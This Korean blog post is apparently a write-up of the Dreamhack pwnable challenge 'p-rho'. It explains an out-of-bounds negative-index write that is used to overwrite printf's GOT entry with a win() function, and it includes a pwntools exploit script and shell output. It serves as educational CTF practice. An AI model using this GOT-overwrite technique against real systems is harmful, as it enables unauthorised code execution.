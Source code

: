 ```yaml
---
layout: post
title: "[Dreamhack] p-rho"
date: 2025-06-10 11:21 +0900
category: ['Syshack']
tag: ['system', 'dreamhack', 'hacking', 'pwn', 'pwnable', '드림핵', '보안', '시스템', '시스템해킹', '포너블', '해킹']
image: /assets/img/post/p-rho/image0.png
---
```


> **Dreamhack Syshack Lv.1**

## P1. 문제 분석
우선 문제 파일을 다운받아 바이너리를 실행해보자.

![](/assets/img/post/p-rho/image1.png)

두번 입력하니 core dumped 에러가 출력되며 프로그램이 종료되는 것을 알 수 있다.

![](/assets/img/post/p-rho/image2.png)

작은 수를 입력하니 두번 넘게 입력을 받는 것을 알 수 있다.

문제에서 따로 소스코드를 제공하지 않기 때문에 가독성을 위해 ida로 디스어셈블 해보자.

![](/assets/img/post/p-rho/image3.png)

main에서부터 취약해 보이는 로직이 확인된다.

첫 입력은 buf\[0]에 입력되고 buf\[0]에 입력된 값이 idx가 되어 새로운 메모리에 값을 저장하게 된다.

하지만, 음수 입력에 대한 필터링이 없기 때문에 oob버그를 활용해 메모리를 덮어 쓸 수 있다.

![](/assets/img/post/p-rho/image4.png)

또한, buf 변수는 전역 변수이기 때문에 .bss 영역에 저장되어 있다.
이를 활용해 got overwrite를 수행할 수 있다.

그러나, 공격을 수행하기 전 바이너리의 보호기법을 확인해야한다.

gdb나 shell에서 `checksec <bin>` 명령어를 입력해 확인할 수 있다.

```shell
$ checksec ./deploy/prob
[*] './p-rho/deploy/prob'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

RELRO는 GOT의 읽기/쓰기 권환을 관리하는 보호기법이기 때문에 이 보호기법이 Partial일 때 got overwrite 공격을 수행할 수 있다.

![](/assets/img/post/p-rho/image5.png)

문제에서 `win()` 함수로 쉘을 지원하기 때문에 이 함수의 주소로 덮어씌우자.

### P1-1. idx 탐색
`printf()`함수의 got를 덮어쓰고나면 idx로 굉장히 큰 값이 들어갈 것이기 때문에 가장 먼저 실행될 `printf()` 함수의 got 주소를 변경한다.

![](/assets/img/post/p-rho/image6.png)

![](/assets/img/post/p-rho/image7.png)

buf의 시작 주소와 `printf()`의 got 주소가 0x78만큼 떨어져있다.

여기 스크린 샷에서 보이진 않지만 buf는 qword 타입으로 선언이 되어있기 때문에 각 idx당 8바이트를 차지한다.

0x78과 8를 나누어보면 15가 나오기 때문에 `buf[-15]`로 `printf@got`에 접근할 수 있다.

이제 `win()`함수의 주소로 덮어 씌어 보자.

## P2. Exploit code

```python
from pwn import *

e = ELF('./deploy/prob')
p = e.process()

p.sendlineafter(b'val: ', str(-15).encode())
p.sendlineafter(b'val: ', str(0x4011B6).encode()) # 0x4011B6 = win() addr

p.interactive()
```

```shell
$ python3 ./p-rho/ex1.py
[*] './p-rho/deploy/prob'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './p-rho/deploy/prob': pid 7953
[*] Switching to interactive mode
$ ls
18785ae2-b26b-4c5c-8e90-d907e5e8eb51.zip  deploy  ex1.py
Dockerfile                                ex.py   flag
```

local에서 성공했으니 문제 서버에 공격을 시도해보자.

![](/assets/img/post/p-rho/image8.png)

**Clear!**